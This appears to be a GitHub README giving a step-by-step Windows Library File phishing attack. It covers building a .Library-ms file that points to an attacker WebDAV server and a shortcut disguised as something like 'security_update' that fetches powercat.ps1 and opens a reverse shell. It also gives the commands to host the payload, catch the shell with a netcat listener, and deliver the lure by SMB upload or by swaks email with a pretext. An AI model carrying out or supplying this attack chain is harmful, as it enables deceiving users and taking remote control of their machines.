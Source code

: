 This repo contains instructions on how to perform a Windows Library File phishing attack.

## Creating Windows Library File

This file, once opened, will point the target machine to our WebDAV server (more on this later). In order to create this file we will execute either of the `winlib_gen` scripts included in this repo.

## Creating a Malicious Shortcut File

Then we will need to create a shortcut file (*this needs to be done on a Windows Machine*):

- On a Windows machine: *right click on the desktop and select new -> shortcut*.

- *Insert the powershell commands* that `winlib_gen` prints *in the location field*.

This command will *request and invoke `powercat.ps1` from an address where we will be hosting it and then connect to our listener with a reverse shell*.

- Name the shortcut file whatever name is appropriate for your context (example security_update).

## Serving the Files

- We will *transfer the shortcut file to a folder in Kali and host it using WebDAV*:

```bash
wsgidav --host 192.168.45.187 --port 80 --auth anonymous --root .
```

- We will start a *Python3 HTTP server and host powercat.ps1*:

```bash
python3 -m http.server
```

- We will *start a netcat listener to catch the shell*:

```bash
nc -nlvp 4444
```

## Sending the Library File

### SMB - smbclient

We can now transfer `config.Library-ms` via smbclient to the target share and hopefully some user will open the file:

```bash
smbclient //IP/sharename -c 'put config.Library-ms' -U 'user%pass'
```

If a user opens the file, we will get a reverse shell.

### Email - swaks

We can send a malicious email using the command-line SMTP tool `swaks`.

- This repo contains a *body.txt file containing an example pretext to encourage the victim* to open the attached library file.

- Then we build our swaks command:

```bash
sudo swaks -t user@domain.com -t user@domain.com --from user@domain.com --attach @config.Library-ms --server {Mailserver IP} --body @body.txt --header "Subject: Announcement" --suppress-data -ap
Username: user
Password: password
```

When our victim finally opens the malicious file, our WebDAV and Python3 servers will receive requests and our listener will grab a shell.

